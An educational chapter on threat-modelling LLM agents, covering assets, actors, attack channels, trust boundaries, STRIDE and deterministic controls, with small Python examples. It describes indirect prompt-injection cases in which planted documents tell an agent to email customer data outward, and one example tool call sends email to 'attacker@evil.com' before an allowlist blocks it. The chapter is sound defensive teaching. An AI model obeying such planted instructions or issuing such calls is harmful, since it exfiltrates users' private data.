

# AI Threat Models

> **Interview answer (say this first).** An AI threat model asks four questions: what are we protecting, who might attack it, where can they reach it, and what stops them. The assets are data, credentials, tools, and reputation. The actors are the external attacker, the malicious user, the compromised dependency, and the curious insider. The attack surface is prompts, retrieved content, tools, memory, model output, and the supply chain. You apply a STRIDE-style lens to each, map every credible threat to a deterministic control, and record the residual risk. The central rule is that the model is not a security boundary: it proposes, code decides.

## Why this exists

Most security teams have a threat model for their web application. Almost none have one for their AI system. That gap is dangerous, because an AI system has a genuinely new property: **the component that decides what to do can be steered by the data it reads.**

A traditional service separates instructions from data. Your code runs your logic; a request body is just values. An LLM agent blends them. The system prompt, the user message, a retrieved PDF, and a tool result all become one stream of tokens. If an attacker can write text into any part of that stream, they are writing into the same channel your instructions use. That is a new attacker-controlled input, and a threat model is how you find it before someone else does.

Threat modelling also decides where you spend effort. You cannot defend everything equally. Some threats are likely and cheap to stop (a secret in a log). Some are unlikely and expensive to stop (a nation-state tampering with model weights). Some are impossible to detect reliably (prompt injection). A threat model turns a vague worry into a ranked list with owners and controls.

Finally, threat modelling is how you avoid the two most common failures of AI security:

- **Overstating a control.** "We scan for injection, so we are safe." Scanners miss novel payloads. The model is not fixed.
- **Understating the surface.** "The model only reads our internal wiki." The wiki can be poisoned. The wiki can contain a copied email. The embedded vector store can be written to.

This chapter builds the frame. The rest of the phase fills in the controls.

## Start from zero

| Word | Plain meaning |
| --- | --- |
| **Asset** | Anything valuable you are trying to protect. |
| **Actor** | Anyone or anything that could cause harm, on purpose or by accident. |
| **Threat** | A specific way an actor could damage an asset. |
| **Vulnerability** | A weakness that lets a threat succeed. |
| **Attack surface** | Every place an attacker can send input or influence behaviour. |
| **Trust boundary** | A line where data or control passes between parties that do not fully trust each other. |
| **Threat model** | A written list of assets, actors, threats, controls, and residual risk. |
| **Control** | A defence that reduces the chance or the impact of a threat. |
| **Residual risk** | The risk that remains after controls are applied. |
| **Defence in depth** | Several independent controls, so one failure is not fatal. |
| **Prompt** | The full text sent to the model: instructions plus data. |
| **Prompt injection** | Untrusted text in the context that the model follows as an instruction. |
| **Retrieval (RAG)** | Fetching documents and placing them in the prompt as context. |
| **Tool / function call** | The model requesting an action by name with arguments; your code runs it. |
| **Agent memory** | Stored notes, summaries, or vectors that persist across turns or sessions. |
| **Exfiltration** | Sending private data to an attacker-controlled destination. |
| **Privilege escalation** | Using one granted capability to gain another you were not granted. |
| **Excessive agency** | Giving the agent more capability than the task needs. |
| **Supply chain** | Everything you depend on: models, weights, datasets, libraries, MCP servers. |
| **MCP** | Model Context Protocol: a standard way to describe and call tools and resources. |
| **Least privilege** | The smallest authority that still gets the job done. |
| **STRIDE** | A checklist of six threat types: spoofing, tampering, repudiation, information disclosure, denial of service, elevation of privilege. |
| **Model is not a boundary** | The model cannot enforce a security rule, because a better instruction can override it. |

Two framing facts to keep straight:

- **The model is a component, not a gatekeeper.** It is probabilistic and its input is partly attacker-controlled. Any rule that lives only in the prompt is a suggestion, not a control.
- **Every input is a potential attacker channel.** User text, retrieved documents, tool descriptions, tool results, and memory writes all reach the context. Each one deserves the question: "What is the worst someone could make the model do with this?"

## The core idea

Picture a bank. The **vault** holds the money. The **teller** talks to customers, follows procedures, and has a key to the cash drawer but not to the vault. The **procedures** say what the teller may do. The **audit camera** records what happened. Security does not rely on the teller's honesty or judgement. It relies on the vault door, the limited key, the rules enforced by the system, and the camera.

An LLM agent is the teller. The model is helpful, fluent, and easily convinced by a well-written note. The vault is your data, credentials, and tools. You must not ask the teller to police themselves. You must design the vault, the keys, the rules, and the camera so that a fooled teller still cannot open the vault.

Start with the assets. Every control has a cost, so you protect the things that matter most.

| Asset class | Examples | Why an attacker wants it |
| --- | --- | --- |
| **Data** | Customer records, source code, embeddings, chat history, internal docs | Sale, extortion, competitive advantage, privacy harm |
| **Credentials** | API keys, DB passwords, OAuth tokens, cloud IAM roles | Lateral movement, persistence, scale |
| **Tools / actions** | Email, payments, shell, file write, deploy pipeline | Real-world effect without direct access |
| **Reputation** | Brand trust, legal standing, user safety | Harm, fines, churn, regulatory action |

Now the actors. Different actors want different things, and they reach you in different ways.

| Actor | Who they are | Typical goal | Typical route |
| --- | --- | --- | --- |
| **External attacker** | Not a user; a third party | Data theft, fraud, disruption | Indirect injection via web, email, or a tool result; supply-chain attack |
| **Malicious user** | An authenticated user | Exceed their authority, extract data, abuse cost | Direct injection, jailbreak, prompt leak, API abuse |
| **Compromised dependency** | A library, model, dataset, or MCP server | Whatever the attacker wants, with your trust | Malicious package, poisoned weights, changed tool behaviour |
| **Curious insider** | A legitimate employee | Understand limits, poke, over-reach | Testing boundaries, copying data, no malice intended |

The attack surface is where those actors meet your system. Memorise these six channels; almost every AI attack enters through one of them.



External attack, malicious user, compromised dependency, and curious insider all act through these six channels. Notice the loop: a tool result goes back into the context, and model output can be written to memory. That loop is how a single poisoned document can keep working in later sessions.

Trust boundaries are the lines you must draw before you draw the architecture.

| Boundary | What crosses it | Who is trusted | Control at the line |
| --- | --- | --- | --- |
| User → app | Typed text, uploaded files | User authenticated, not trusted with your rules | Input validation, rate limits, authz |
| App → model | Assembled prompt | Model is untrusted input processor | Prompt design, no secrets in prompt |
| Retrieval → context | Web pages, docs, emails | Content is untrusted, full stop | Provenance labels, treat as data, isolate reads |
| Model → tool layer | Proposed tool call and arguments | Model output is a proposal, never a decision | Allowlist, argument checks, approval |
| Tool layer → external systems | Credentials, writes, messages | External systems are separate trust domains | Scoped credentials, egress control |
| Memory → context | Stored notes, summaries | Persisted text can be poisoned | Write review, source labels, re-validation |
| Third-party server → host | Tool descriptions, schemas, results | Server is untrusted until reviewed | Fingerprinting (hashing tool definitions), sandboxing, policy |

The most important row is the model layer. **The model is not a security boundary.** It cannot enforce a permission, prove an identity, or guarantee an output. It can only propose. Every real decision — allow, deny, redact, approve — must happen in deterministic code on one side of that line.

A STRIDE-style lens makes sure you do not forget a whole category. Here is each category translated to AI:

| STRIDE category | AI translation | Example threat |
| --- | --- | --- |
| **Spoofing** | Fake server, spoofed user, agent impersonation | A malicious MCP server claims to be the official one |
| **Tampering** | Poisoned context, memory, tool schema, or weights | A document tells the agent to "always CC" an attacker |
| **Repudiation** | No audit trail for an agent action | The agent deletes a record and nobody can prove how |
| **Information disclosure** | Secrets or PII leak via prompt, output, or logs | A tool prints an API key into the model context |
| **Denial of service** | Token, loop, or cost exhaustion | A prompt makes the agent loop until the budget burns |
| **Elevation of privilege** | One tool used to gain another capability | A read tool accepts a path that escapes the workspace |

> **Note.** A threat model is not a document you write once. It is a living table you update when you add a model, a tool, a data source, or an MCP server. A new capability is a new row, and often a new actor.

## How it works

1. **List the assets.** Write down the data, credentials, tools, and reputation you are protecting. If everything is an asset, nothing is. Rank them.
2. **Enumerate the actors.** Name the external attacker, the malicious user, the compromised dependency, and the curious insider. For each, write what they want and what they can already reach.
3. **Draw the trust boundaries.** Mark every place data or control crosses between parties that do not fully trust each other. The model layer is a boundary, and the model is on the untrusted side.
4. **Map the attack surface.** Walk the six channels: prompts, retrieved content, tools, memory, model output, supply chain. For each, ask who can write into it.
5. **Apply a STRIDE-style lens.** For each boundary, ask the six questions. Spoofing, tampering, repudiation, information disclosure, denial of service, elevation of privilege.
6. **Write concrete threats.** "Data theft" is too vague. "A poisoned support ticket in the retrieval index instructs the agent to email the customer list to an outside address" is a threat you can test and control.
7. **Rate each threat.** Use likelihood times impact, or a simple low/medium/high. Rank so effort follows risk.
8. **Map each threat to a control.** A control is deterministic code or a process, never a prompt sentence. If the only control is "the model was told not to", it is not a control.
9. **State the residual risk and its owner.** Every control has a limit. Write down what remains and who accepts it.
10. **Put the control at the right layer.** Reading controls (provenance, isolation), acting controls (allowlist, approval, scopes), and recording controls (audit) are different jobs.
11. **Validate with adversarial tests.** Keep a small suite of poisoned documents, forbidden tool calls, and over-broad scope requests, and run it whenever the model, prompt, or tools change.
12. **Review on change.** New tool, new data source, new model version, new MCP server: revisit the model. A capability you added last week may have created a new path.

Two mechanisms are worth naming precisely:

- **Least privilege bounds the blast radius.** The model will sometimes be fooled. Least privilege means that when it is, the tool it reaches has little authority and the credential it carries is short-lived and narrow.
- **Defence in depth assumes each control fails.** Provenance labelling can be bypassed, allowlists can be misconfigured, approvals can be rubber-stamped. Each layer should still hold when the one before it does not.

## The syntax you will use

A threat model can live in a version-controlled file. Start by making the assets, actors, and channels explicit data.

```python
# A tiny threat register. Real ones are bigger, but the shape is the same.
TRUST = {
    "internet": "untrusted",
    "retrieved": "untrusted",
    "tool-result": "untrusted",
    "model-output": "untrusted",
    "agent-code": "trusted",
    "secrets": "trusted",
}
```

The word `untrusted` is a decision, not a description. It means "this value may carry an attacker's instruction".

Draw the flows and check every crossing. A flow from a less sensitive zone into a more sensitive one is an injection path; the reverse is an exfiltration path.

```python
SENSITIVITY = {"internet": 0, "retrieved": 0, "tool-result": 0, "agent": 2, "tool": 2, "control": 3, "secrets": 3}

def audit_flows(flows):
    findings = []
    for f in flows:
        s, d = SENSITIVITY[f["from"]], SENSITIVITY[f["to"]]
        if f.get("control"):
            continue
        if s < d:
            findings.append(f"INJECTION PATH  {f['from']}->{f['to']}: {f['what']}")
        elif s > d:
            findings.append(f"EXFIL PATH      {f['from']}->{f['to']}: {f['what']}")
    return findings
```

A flow with no control across a boundary is a finding, not a footnote. This is the fastest way to see the shape of your risk.

Apply STRIDE as a coverage checklist. A category with no threat row is usually a category you forgot, not a category that cannot happen.

```python
STRIDE = {
    "Spoofing": "fake MCP server, spoofed user, agent impersonation",
    "Tampering": "poisoned context, memory, tool schema, or weights",
    "Repudiation": "no audit trail for an agent action",
    "Information disclosure": "secrets or PII leak via prompt, output, or logs",
    "Denial of service": "token, loop, or cost exhaustion",
    "Elevation of privilege": "one tool used to gain another capability",
}

def stride_gaps(register):
    covered = {t["stride"] for t in register if t["control"]}
    return [c for c in STRIDE if c not in covered]
```

Rank threats so effort follows risk. This example uses likelihood (1-5) times impact (1-5).

```python
def risk(likelihood, impact):
    return likelihood * impact

THREATS = [
    ("secret leakage via logs", 3, 5),
    ("jailbreak produces rude text", 5, 1),
    ("indirect injection exfiltrates data", 4, 5),
    ("agent loops and burns tokens", 4, 2),
]
```

Finally, the rule that shapes every control: check the code, not the model.

```python
ALLOWED = {"read_doc", "search"}

def execute(request, code_enforces):
    if code_enforces and request["tool"] not in ALLOWED:
        return f"BLOCKED by code: {request['tool']}"
    return f"EXECUTED: {request['tool']}({request['args']})"
```

When `code_enforces` is `False`, the model's own judgement is the only thing standing between a malicious request and the action. That is not a boundary.

## Examples: simple to real

**Example 1 — a trust-boundary audit finds the two real problems.** The flows below are a normal agent. Most are controlled. Two are not, and both matter.

```python
FLOWS = [
    {"from": "internet", "to": "retrieved", "what": "web page fetched", "control": "sandboxed fetch"},
    {"from": "retrieved", "to": "agent", "what": "retrieved text enters context", "control": "provenance label"},
    {"from": "tool-result", "to": "agent", "what": "tool result re-enters context"},
    {"from": "agent", "to": "tool", "what": "proposed tool call", "control": "allowlist + policy"},
    {"from": "secrets", "to": "agent", "what": "API key placed in prompt"},
    {"from": "agent", "to": "internet", "what": "outbound fetch", "control": "egress allowlist"},
]
```

Output:

```text
INJECTION PATH  tool-result->agent: tool result re-enters context
EXFIL PATH      secrets->agent: API key placed in prompt
```

Two findings, two different classes. The tool result is an untrusted channel back into the model. The API key is a trusted secret moving toward an untrusted component. Neither is caught by looking at the model; both are caught by looking at the flows.

**Example 2 — STRIDE coverage exposes the forgotten category.** A register can look complete while an entire category is missing.

```python
THREAT_REGISTER = [
    {"threat": "poisoned web page", "stride": "Tampering", "control": "treat as untrusted, isolate reads"},
    {"threat": "secret in prompt", "stride": "Information disclosure", "control": "secrets never enter context"},
    {"threat": "agent loops forever", "stride": "Denial of service", "control": "step and cost budgets"},
    {"threat": "fake tool server", "stride": "Spoofing", "control": "server allowlist + pinning"},
    {"threat": "agent emails the customer list", "stride": "Elevation of privilege", "control": "recipient allowlist + approval"},
    {"threat": "agent deletes a record with no log", "stride": "Repudiation", "control": ""},
]
```

Output:

```text
['Repudiation']
```

The last row has no control, so the category is uncovered. In practice this is the most common gap: teams log tool *calls* but not the *decision*, the arguments, and the outcome, so they cannot reconstruct what happened. Repudiation is a security threat, not a paperwork one.

**Example 3 — rank by risk, not by how scary a threat sounds.** A polite jailbreak and a data breach are not equal.

```python
THREATS = [
    ("secret leakage via logs", 3, 5),
    ("jailbreak produces rude text", 5, 1),
    ("indirect injection exfiltrates data", 4, 5),
    ("agent loops and burns tokens", 4, 2),
]
```

Output:

```text
20  indirect injection exfiltrates data
15  secret leakage via logs
 8  agent loops and burns tokens
 5  jailbreak produces rude text
```

The ranking says where to spend first: stop exfiltration, stop secret leaks, cap loop cost. A rude reply is a real but low-impact problem. Ranking prevents the loudest issue from eating the whole budget.

**Example 4 — the same request, with and without a code control.** This is the "model is not a boundary" rule in six lines.

```python
model_request = {"tool": "send_email", "args": {"to": "attacker@evil.com"}}

print("prompt-only  :", execute(model_request, code_enforces=False))
print("code-enforced:", execute(model_request, code_enforces=True))
```

Output:

```text
prompt-only  : EXECUTED: send_email({'to': 'attacker@evil.com'})
code-enforced: BLOCKED by code: send_email
```

The model output is identical in both lines. The only difference is whether deterministic code checks the proposal. The prompt can ask nicely; only the code can refuse.

**Example 5 — a real threat, end to end, mapped to controls.** Take one credible threat and trace it from asset to control.

```text
Threat: an external attacker plants a document in the support
        knowledge base that tells the agent to email the customer
        list to an outside address.

Asset:      customer data
Actor:      external attacker (indirect)
Surface:    retrieved content enters the context
STRIDE:     Tampering -> Information disclosure -> Elevation of privilege
Likelihood: medium (attacker must get a doc indexed)
Impact:     high (bulk PII disclosure)
Controls:
  - provenance label every retrieved chunk, treat as data
  - recipient allowlist on send_email (argument-level)
  - human approval for external sends
  - egress allowlist so unknown destinations fail
  - read path isolated from send path
Residual:   an allowed internal recipient who forwards externally
Owner:      platform security
```

A good threat model ends with a control list, a residual risk, and a name. Without the owner, the control is a wish.

## In production

- **Make the model's trust level explicit.** Write down that model output is untrusted input. Then every consumer of that output — tool executor, memory writer, UI — knows it must validate.
- **Treat retrieved content as the highest-risk channel.** The agent must read it to be useful, and the attacker only needs to get text into it. Provenance, isolation, and argument-level controls matter most here.
- **Do not let the model hold credentials.** Keys belong in a vault, used by code at egress. If a key is in the context, a prompt leak is a credential leak.
- **Put enforcement in code at the boundary.** Allowlists, argument validation, approvals, and scope checks must live where the model cannot edit them. A rule in the prompt is a hint.
- **Rank, do not just list.** Likelihood times impact gives a defensible order of work. It also surfaces low-impact-but-loud threats so you can explicitly defer them.
- **Model the loop.** Tool results re-enter context and outputs can be stored. A threat model that ignores the write path misses persistent poisoning.
- **Cover repudiation deliberately.** Log the actor, the tool, the exact arguments, the decision, and the outcome, joined by a correlation id (a unique id that ties the request, prompt, tool call, and result together). A decision you cannot reconstruct is a decision you cannot defend.
- **Include the supply chain.** Base models, fine-tunes, datasets, tokenizers, libraries, MCP servers, and even prompt templates are dependencies. Each one is a potential compromised-dependency row.
- **Give every control a stated limit.** Fingerprinting detects a rug pull (a tool that changes after approval) but does not prevent it. Scanning catches known payloads but misses novel ones. Write the limit next to the control.
- **Test the controls, not the intent.** A control is only real if an adversarial test fails to get past it. Keep the tests in CI alongside unit tests.
- **Revisit on every capability change.** A new tool is a new row. A new data source is a new channel. A new model version may obey payloads the old one refused.
- **Do not overclaim.** Say "this bounds the damage" rather than "this stops injection." The honest answer survives a follow-up; the slogan does not.

## Interview questions

### 1. What is an AI threat model, and how is it different from a normal one?

**Answer.** It is the same four questions — assets, actors, attack surface, controls — with one new element: the model is a component whose decisions can be steered by data. In a normal service, code and data are separate. In an AI system, retrieved text, tool descriptions, and model output all share one channel with your instructions. So the attack surface now includes prompts, retrieved content, tools, memory, and model output, and the model itself must be treated as untrusted.

**Follow-up: "Do you still use STRIDE?"** Yes. STRIDE is a coverage checklist, not a threat list. You translate each category: spoofing becomes fake servers and agent impersonation, tampering becomes poisoning, and elevation of privilege becomes excessive agency. It makes sure you do not forget a whole category.

**Trap.** Saying the model is "the security layer." The model cannot enforce anything, because a better instruction can override it.

### 2. Why do you say the model is not a security boundary?

**Answer.** Because the model is probabilistic and its input is partly attacker-controlled. Any rule expressed only in the prompt competes with attacker text in the same channel, and there is no reliable separation between instruction and data. A boundary must make a decision that cannot be talked out of it. That means deterministic code: allowlists, argument checks, scoped credentials, and approvals. The model can propose; the code disposes.

**Follow-up: "Then why keep a system prompt at all?"** It genuinely improves default behaviour. It is a strong nudge, not a control. Use it for style and policy guidance, but never as the only thing preventing a dangerous action.

**Trap.** Treating a refusal from the model as a security control. The same model may comply with a better-phrased request.

### 3. What are the AI attack-surface channels?

**Answer.** Six. Prompts (system and user text), retrieved content (web, documents, email, database rows), tools (names, descriptions, schemas, and results), memory (notes, summaries, vector stores), model output (text, tool calls, code), and the supply chain (base models, weights, datasets, libraries, MCP servers). An attacker who can write into any of them is writing into the context stream.

**Follow-up: "Which is most dangerous for an agent?"** Retrieved content, because the agent must read untrusted text to be useful and the attacker only needs to plant it somewhere the agent will fetch. It is also the channel that turns into memory poisoning if output is persisted.

**Trap.** Forgetting tool descriptions and results. Descriptions steer the model toward a tool, and results come straight back into the context.

### 4. Who are the actors you model for an AI system?

**Answer.** Four. The external attacker, who never logs in and reaches you through content or the supply chain. The malicious user, who is authenticated but tries to exceed their authority. The compromised dependency, which includes malicious packages, poisoned weights, and a changed MCP server. And the curious insider, who probes boundaries or over-reaches without malice. Each has a different route and a different control.

**Follow-up: "Why include the curious insider if there is no malice?"** Because impact does not depend on intent. An insider who copies data into a personal notebook or runs the agent with their admin token causes real harm. Controls should hold regardless of why someone crossed a line.

**Trap.** Modelling only the external attacker. Authenticated users and dependencies are often the easier path.

### 5. How do you map threats to controls?

**Answer.** For each concrete threat, name the boundary it crosses, then put a deterministic control on that boundary. Reading controls limit what untrusted text can trigger; acting controls limit what the agent can do; recording controls make actions provable. State the residual risk and assign an owner. If the only control is a prompt sentence, it is not a control.

**Follow-up: "What if a control cannot fully stop the threat?"** Say so, and add a second layer. Exfiltration filtering can miss encoded data, so you also allowlist egress destinations and separate the read path from the send path. The goal is to bound impact, not to achieve zero risk.

**Trap.** Writing controls that are actually intentions. "The agent is instructed to ask before sending" is not an approval gate; the gate must be code that blocks the send.

### 6. How do you rate and prioritise AI threats?

**Answer.** Likelihood times impact, or a qualitative low/medium/high on each axis. Likelihood depends on how easy it is to reach the channel and how many attempts the attacker gets. Impact depends on the asset: bulk PII is high, a rude reply is low. Rank the list and assign work in that order. Revisit the ranking when the architecture changes.

**Follow-up: "A threat is hard to rate. What do you do?"** Split it. "Prompt injection" is not rateable; "a poisoned ticket causes an email to an external address" is. Specific threats have concrete likelihoods and impacts.

**Trap.** Rating by how alarming the name sounds. Indirect injection is more likely and higher impact than a polite jailbreak, even though the jailbreak gets more headlines.

### 7. How would you threat-model a new MCP server?

**Answer.** Treat it as a compromised-dependency candidate. Record the owner and version, fingerprint its tools and descriptions, review the requested scopes, and draw the boundary between the server and your host. Then ask STRIDE: can it spoof another server, can it change after approval, does it log enough to prove what it did, can its output leak data, can it exhaust your budget, and can one of its tools reach beyond its intended capability? Controls are least privilege, sandboxing, and re-review on change.

**Follow-up: "What is the residual risk?"** A server that holds real authority and misuses it. Sandboxing and scoped credentials limit the reach, but they do not make the server honest.

**Trap.** Trusting a server because it is popular or open source. Popularity is not a security property, and open source can still ship a malicious update.

### 8. What does a threat model produce, and how do you keep it alive?

**Answer.** It produces a ranked table of assets, actors, concrete threats, controls, residual risks, and owners, plus adversarial tests that prove the controls hold. You keep it alive by treating any new model, tool, data source, or dependency as a trigger: add a row, re-rank, and re-test. Store it in version control next to the code so it changes with the system.

**Follow-up: "How do you know it is working?"** Run the adversarial suite after every change. If a poisoned document, a forbidden tool call, or an over-broad scope request gets through, the model is out of date. A green suite is evidence; a paragraph of intent is not.

**Trap.** Writing the model once for an audit and never updating it. A stale threat model gives false confidence, which is worse than no model.

## Remember this

- **Assets, actors, attack surface, controls, residual risk.** That is the whole frame.
- **The model is not a security boundary.** It proposes; deterministic code decides.
- **Six channels: prompts, retrieved content, tools, memory, model output, supply chain.** Any of them can carry an attacker's instruction.
- **Map every concrete threat to a control at the boundary it crosses**, and write the control's limit next to it.
- **Rank by likelihood times impact, assign an owner, and re-test on every change.** A threat model is a living table, not a document.
